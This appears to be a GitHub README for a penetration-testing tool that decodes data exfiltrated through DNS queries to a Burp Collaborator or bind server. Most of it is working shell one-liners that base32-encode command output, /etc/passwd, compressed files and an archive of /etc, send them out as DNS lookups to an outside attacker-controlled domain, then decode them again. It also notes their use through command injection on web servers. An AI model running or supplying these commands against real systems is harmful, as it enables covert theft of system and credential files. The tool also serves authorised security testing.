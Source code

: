 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode exfiltrated data. 

Burp Collaborator allows appending hostnames to the provided address. For example: assume this is your collaborator address: `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

You may prepend a 'hostname' (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as base32-encoded data, see below). This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

Exfiltrate the base32-encoded output from `whoami` via Burp Collaborator:

Command:

`a=$(whoami|base32|tr -d =);nslookup $a.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

Burp Collaborator response:

`O53XOLLEMF2GCCQ.q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`

![Screen Shot 2023-01-10 at 2 59 05 PM](https://user-images.githubusercontent.com/14989334/211650128-5d6a8562-3d64-4ec8-b530-bc47ae5a0db0.png)

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`), which is the most efficent native encoding utility (on most Linux/Unix systems) that is safe for DNS queries. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters.

Hex encoding is also safe for DNS queries (but is less efficient). I may add hex support in the future. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that you will receive more reliable results by specifying the name server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig @<DNS Server> $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:

```
./dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (/etc/passwd exfiltration):

```
/dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator1.log | base32 -d
```

## Sample Logs

[collaborator2.log](collaborator2.log) (gzipped /etc/passwd exfiltration):

```
/dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator1.log | base32 -d | zcat
```


